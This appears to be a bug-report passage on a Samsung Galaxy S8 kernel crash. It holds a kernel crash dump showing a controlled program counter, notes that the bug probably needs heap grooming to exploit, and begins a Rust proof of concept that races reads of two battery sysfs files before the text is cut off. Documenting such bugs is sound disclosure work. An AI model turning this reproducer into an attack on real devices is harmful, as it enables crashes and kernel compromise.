 #### G950F (Exynos Galaxy S8) [G950FXXU4CRI5] (September 1, 2018)

Can crash by getting PC in the kernel. Probably a race condition heap corruption. Needs a groom.

(This PC crash is old, since it’s corruption this is some old repro from an unknown version, probably April 2018 or so)

```
task: ffffffc85f672880 ti: ffffffc8521e4000 task.ti: ffffffc8521e4000
PC is at jopp_springboard_blr_x2+0x14/0x20
LR is at seq_read+0x15c/0x3b0
pc : [<ffffffc000c202b0>] lr : [<ffffffc00024a074>] pstate: a0000145
sp : ffffffc8521e7d20
x29: ffffffc8521e7d30 x28: ffffffc8521e7d90
x27: ffffffc029a9e640 x26: ffffffc84f10a000
x25: ffffffc8521e7ec8 x24: 00000072755fa348
x23: 0000000080000000 x22: 0000007282b8c3bc
x21: 0000000000000e71 x20: 0000000000000000
x19: ffffffc029a9e600 x18: 00000000000000a0
x17: 0000007282b8c3b4 x16: 00000000ff419000
x15: 000000727dc01b50 x14: 0000000000000000
x13: 000000000000001f x12: 00000072755fa1a8
x11: 00000072755fa1fc x10: 0000000000000001
x9 : ffffffc858cc5364 x8 : 0000000000000000
x7 : 0000000000000001 x6 : 0000000000000001
x5 : ffffffc000249f18 x4 : ffffffc000fcace8
x3 : 0000000000000000 x2 : ffffffc84f10a000
x1 : ffffffc8521e7d90 x0 : ffffffc029a9e600

PC: 0xffffffc000c20230:
0230  128001a1 17fec15d 128001a0 d2800015 17fec46e 128001b4 17fec62b 00000000
0250  01bc8a68 ffffffc0 d503201f a9bf4bf0 b85fc010 716f9e10 712eb61f 54000040
0270  deadc0de a8c14bf0 d61f0000 a9bf4bf0 b85fc030 716f9e10 712eb61f 54000040
0290  deadc0de a8c14bf0 d61f0020 a9bf4bf0 b85fc050 716f9e10 712eb61f 54000040
02b0  deadc0de a8c14bf0 d61f0040 a9bf4bf0 b85fc070 716f9e10 712eb61f 54000040
02d0  deadc0de a8c14bf0 d61f0060 a9bf4bf0 b85fc090 716f9e10 712eb61f 54000040
02f0  deadc0de a8c14bf0 d61f0080 a9bf4bf0 b85fc0b0 716f9e10 712eb61f 54000040
0310  deadc0de a8c14bf0 d61f00a0 a9bf4bf0 b85fc0d0 716f9e10 712eb61f 54000040


```

**PoC**

```
extern crate rand;

use std::fs::File;
use std::io::Read;

fn thrasher() {
    // These are the 2 files we want to fuzz
    let random_paths = [
        "/sys/devices/platform/battery/power_supply/battery/mst_switch_test",
        "/sys/devices/platform/battery/power_supply/battery/batt_wireless_firmware_update"
    ];

    // Buffer to read into
    let mut buf = [0x41u8; 8192];

    loop {
        // Pick a random file
        let file = &random_paths[rand::random::<usize>() % random_paths.len()];

        // Read a random number of bytes from the file
```